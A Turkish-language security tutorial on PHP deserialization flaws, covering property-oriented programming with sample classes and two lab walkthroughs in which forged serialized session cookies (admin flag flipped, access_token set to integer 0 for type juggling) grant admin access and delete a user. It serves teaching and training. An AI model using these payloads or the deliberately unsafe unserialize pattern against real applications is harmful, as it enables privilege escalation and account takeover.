







# 0x0C | Deserialization Zafiyetlerini Anlamak Episode 2

Bir önceki yazıda kaldığımız yerden devam edelim. Eğer okumadıysanız öncelikle o yazıyı okuyabilirsiniz. (oku)

# Property Oriented Programming (POP)

Daha önce yazdığımız kodlara eklemeler yapalım ve neler olabileceğini hep birlikte inceleyelim.

```php

user.class.php dosyası:
<?php

class Permissions{
    var $permissionArr = array();
}

class User{
    var $firstname;
    var $lastname;
    var $is_admin = 0;

    function __construct($firstname= "", $lastname=""){
        $this->firstname=$firstname;
        $this->lastname=$lastname;
    }
    function __toString(){
        return $this->firstname." ".$this->lastname."\n";
    }
    function __destruct(){
        //echo "Object destruction: ".$this->firstname." ".$this->lastname."\n";
    }
    function __wakeup(){
        //echo "SINIF UYANDIRILDI !!!";
    }
    public function isAdmin(){
        if($this->is_admin)
            return True;
        return False;
    }
}

class SecretObject{
    var $filename;
    function __wakeup(){
        system("");
    }
}
```

Kodumuza ‘Permissions’ isimli yeni bir sınıf ekledik. Buradaki ‘Permissions’ sınıfı aslında hiç aşikar değilken deserialize işlemini gerçekleştirdiğimiz ve buradaki string ifadeyi düzenleyebildiğimiz noktada farklı işlemler gerçekleştirebilir duruma geliyoruz. Örneğin kullandığımız string ifadeyi aşağıdaki gibi değiştirebiliriz. Buradaki payload’ın önceki halinde User sınıfı için bir is_admin property’si bulunmaktaydı. Bir sınıfın property’si başka bir sınıfa ait olabileceği için biz bu kısmı başka bir sınıf ile değiştirerek aslında Permissions sınıfını oluşturtacağız. Burada aslında kodsal olarak düşününce şu tarz bir işlemi gerçekleştirmiş olmaktayız:

```php
$this -> is_admin = new Permissions();
```

İlgili deserialize işleminin gerçekleştiği dosyamızda da payload’ımızı buradaki gibi güncellediğimizde artık istediğimiz sonuca ulaşabiliriz. Yani burada yaptığımız şey genel olarak User sınıfının değerini değiştirebildiğimiz ‘is_admin’ property’sini başka bir objeye oluşturtuyoruz (create ettirmek). 

```php
deserialize.php dosyası:
<?php

require_once("user.class.php"); //bulunduğumuz yerden almasını istiyoruz.

$payload = ""; //UNTRUSTED SOURCE

$payload = 'O:4:"User":3:{s:9:"firstname";s:0:"";s:0:"";s:0:"";s:8:"is_admin";O:11;"Permissions"}';

$user = unserialize($payload);

echo $user->isAdmin();
```

Şimdi deserialize.php dosyamızı çalıştırıp sonuçlara bakabiliriz.

```php
php deserialize.php
```

**Output:**

```php
PHP Warning:  unserialize(): Error at offset 66 of 85 bytes in /home/ilker/pentest/deserialization-course/deserialize.php on line 10
PHP Fatal error:  Uncaught Error: Call to a member function isAdmin() on false in /home/ilker/pentest/deserialization-course/deserialize.php:12
Stack trace:
#0 {main}
  thrown in /home/ilker/pentest/deserialization-course/deserialize.php on line 12
```


Burada hata almamızın sebebi payload için gerekli olan string ifadeyi yazarken birtakım hatalar yapmamızdan kaynaklanmaktadır. Buradaki ifadenin doğru yazılması için bazı ipuçları ve dikkat edilmesi gereken noktalar vardır.

Buradaki string ifadeyi elde etmek için öncelikle serialize işlemini kendiniz manuel olarak yapıp daha sonra elde ettiğiniz string ifadenin yapısına göre özelleştirme yapmalısınız. 

Şimdi serialize.php dosyamızı düzenleyerek burada yapmak istediğimiz işlemi öncelikle manuel olarak kendimiz yapalım. Bu sayede kendi saldırı kodunuzu inşa etmiş olacaksınız.

```php
serialize.php dosyası:
<?php

class Permissions{
    var $permissionArr = array();
}

class User{
    var $firstname;
    var $lastname;
    var $is_admin = 0;

    function __construct($firstname= "", $lastname=""){
        $this->firstname=$firstname;
        $this->lastname=$lastname;
        $this->is_admin=new Permissions();
    }
    function __toString(){
        return $this->firstname." ".$this->lastname."\n";
    }
    function __destruct(){
        //echo "Object destruction: ".$this->firstname." ".$this->lastname."\n";
    }
    function __wakeup(){
        //echo "SINIF UYANDIRILDI !!!";
    }
    public function isAdmin(){
        if($this->is_admin)
            return True;
        return False;
    }
}

class SecretObject{
    var $filename;
    function __wakeup(){
        system("");
    }
}
```

**Output:**

```php
O:4:"User":3:{s:9:"firstname";s:6:"Mehmet";s:8:"lastname";s:4:"INCE";s:8:"is_admin";O:11:"Permissions":1:{s:13:"permissionArr";a:0:{}}}
```

Burada oluşan sonuca göre yukarıdaki payload içeriğinde permissionArr property’sini vermediğimizi görebiliriz. Permissions sınıfı için böyle bir property bulunmaktaydı. Dolayısıyla bunu vermediğimizde kodumuz hata vermiş oldu.  

Permissions sınıfımıza da yeni bir fonksiyon ekleyelim, magic fonksiyon olarak kullanılan bu fonksiyon ile çalıştırıldığında istediğimiz sonucu görebiliriz. 

```php
class Permissions{
    var $permissionArr = array();

    function __wakeup(){
        echo "ben uyandım mdisec";
    }
}
```

Ürettiğimiz saldırı kodunu da artık deserialize işlemini gerçekleştirdiğimiz noktada rahatlıkla kullanabiliriz. 

Buradaki saldırı kodumuzda User objesinin 3 adet property’si bulunmakta. İlk property ‘firstname’, ikinci property ‘lastname’ ve son olarak üçüncü property ise ‘is_admin’ property’sidir. Ancak biz burada is_admin property’si için beklendiği üzere 0 ya da 1 gibi integer bir değer göndermek yerine bir obje göndermekteyiz. Gönderdiğimiz bu obje ise aslında Permissions sınıfına ait olan permissionsArr değerini de alıp başka bir objeye point etme hakkına sahip olmaktayız. Burada property’leri kullanarak programlama dilinin özellikleri sayesinde yazılımcının hiç oluşturmayı düşünmediği sınıfları oluşturabilir hale gelmiş olmaktayız. 

```php
$payload = 'O:4:"User":3:{s:9:"firstname";s:6:"Mehmet";s:8:"lastname";
    s:4:"INCE";s:8:"is_admin";O:11:"Permissions":1:{s:13:"permissionArr";a:0:{}}}';
```

Elde etmek istediğimiz sonuca ulaştığımızı da buradaki çıktıdan görebiliriz;

```php
php deserialize.php
```

```php
ben uyandım mdisec
```


# Lab: Modifying serialized objects

Bu lab ortamında bizden istenen şey Session’da yer alan serialize edilmiş objeyi değiştirerek yetkimizi yükseltmemiz istenmektedir. 



Henüz kullanıcı girişi yapmadığımızda herhangi bir session bilgisi bulunmamaktadır;


Bu yüzden öncelikle bize verilen giriş bilgilerini kullanarak giriş yapmalıyız. Bu sayede bizim için session bilgisi de eklenmiş olacaktır. 



Giriş yaptıktan sonra tekrar uygulamamızın anasayfasına geldiğimizde ve bu işlemleri burpsuite aracılığıyla incelediğimizde session bilgisinin eklendiğini görebiliriz.



Burada elde edilen session bilgisini öncelikle URL Decode daha sonra da Base64 dedocing yaptığımızda anlamlı bir sonuç görebilliriz.



Yukarıda bahsettiğimiz senaryonun aynısı aslında burada simüle edilmiş durumda. “admin” için 0 yerine 1 yazdığımızda yetkimizi yükseltmiş oluyoruz. Artık burpsuite’te bu kısmı repeater aracılığıyla değiştirdikten sonra tekrar base64-encode ve URL-encode işlemlerini gerçekleştirip request’i gönderiyoruz.

```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}
```

```php
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30%3d
```

Artık elde ettiğimiz bu session bilgisi ile devam etmeliyiz. Burada cookie’nizi güncellemeniz ya da manuel olarak her request için bu session bilgisini eklemeniz gerekmektedir. 

Eğer firefox’ta mevcut cookie’yi silip yeniden istek atılırken elde ettiğimiz bu session bilgisini eklersek istediğimiz hedefe ulaşmış olacağız. Firefox’ta mevcut session’ı sildikten sonra Intercept açıkken bu şekilde forward ile ilerleyerek istediğimiz sesssion bilgisini ekliyoruz. 


Daha sonra da uygulamamızı kontrol ettiğimizde admin paneli özelliğinin açıldığını görebilmekteyiz. 



Cookie’leri sildiğimiz için bundan sonraki işlemlerde de Request’lerde session bilgisini kendimiz eklemeliyiz. 

Artık burada carlos kullanıcısını silebildiğimizi görmekteyiz.


Artık bu sayede başarıyla çözmüş olduk…


Firefox tarayıcısında Cookie ile ilgili işlemleri yönetebilmek için buradaki eklentiyi kurabilirsiniz: [Cookie Quick Manager Firefox Extension](https://addons.mozilla.org/en-US/firefox/addon/cookie-quick-manager/)

# Lab: Modifying serialized data types

Sıradaki lab ortamında da administrator hesabını ele geçirmemiz istenmektedir. 



Bu lab için de session bilgisini elde etmek için sisteme verilen giriş bilgileriyle giriyoruz. Ardından session bilgisini decode ettiğimizde ortaya bu sonuç çıkmaktadır. 

```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"nx19tbfamwu23nmwavajsa1m796exwqm";}
```



Bu noktada şu kaynak da faydalı olacaktır: **[PHP Type Juggling Vulnerabilities](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09)**

Burada doğru ilerleyebilmek için kendi sınıfımızı yazarak uygulamada bulunan session bilgisini serialize etmemiz gerekmektedir. Daha sonra burada elde ettiğimiz sonucu kullanabiliriz. 

```php
Modifying-serialized-data-types.php dosyası:
<?php

class User{
    var $username;
    var $access_token;
}

$payload = 'O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"nx19tbfamwu23nmwavajsa1m796exwqm";}';

$user = unserialize($payload);
$user->access_token = 0;

echo serialize($user);
```

```php
php Modifying-serialized-data-types.php
```

Output:

```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";i:0;}
```

Hatta burada isterseek url encoding ve base64 encoding işlemlerini de yapabiliriz. Kodumuza bu kısmı ekliyoruz.

```php
echo urlencode(
    base64_encode(serialize($user))
);
```

Output:

```php
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtpOjA7fQ%3D%3D
```

Bu işlemi burpsuite tarafına taşıdığımızda artık elde ettiğimiz yeni session bilgisi ile ilerleyince admin panelinin geldiğini görebilmekteyiz…


Daha önce kurduğumuz firefox eklentisi ile cookie bilgisini güncelleyip işlemlere devam edelim. 


Bizden istenen şeyi yaparak Carlos kullanıcısını siliyoruz. 


Ve görev başarıyla tamamlandı…


### Oku: [Drupal Coder Zafiyet Analizi & Metasploit Modülü Geliştirilmesi](https://www.mehmetince.net/drupal-coder-zafiyet-analizi-metasploit-modulu-gelistirilmesi/)

### Analiz Et: [https://github.com/rapid7/metasploit-framework/pull/7115](https://github.com/rapid7/metasploit-framework/pull/7115)

# Kaynaklar:

1. [https://www.youtube.com/watch?v=wvNGCBDbENY](https://www.youtube.com/watch?v=wvNGCBDbENY)
2. [https://www.mehmetince.net/php-object-injection-saldirilari-ve-korunmasi/](https://www.mehmetince.net/php-object-injection-saldirilari-ve-korunmasi/)
3. [https://nickbloor.co.uk/2017/08/13/attacking-java-deserialization/](https://nickbloor.co.uk/2017/08/13/attacking-java-deserialization/)
4. [https://www.mehmetince.net/codeigniter-based-no-cms-admin-account-hijacking-rce-via-static-encryption-key/](https://www.mehmetince.net/codeigniter-based-no-cms-admin-account-hijacking-rce-via-static-encryption-key/)
5. [https://www.youtube.com/watch?v=YYsisTQcxls](https://www.youtube.com/watch?v=YYsisTQcxls)
6. [https://www.youtube.com/watch?v=WNzGwltk14k](https://www.youtube.com/watch?v=WNzGwltk14k)
7. [https://github.com/frohoff/ysoserial](https://github.com/frohoff/ysoserial)
8. [https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09)
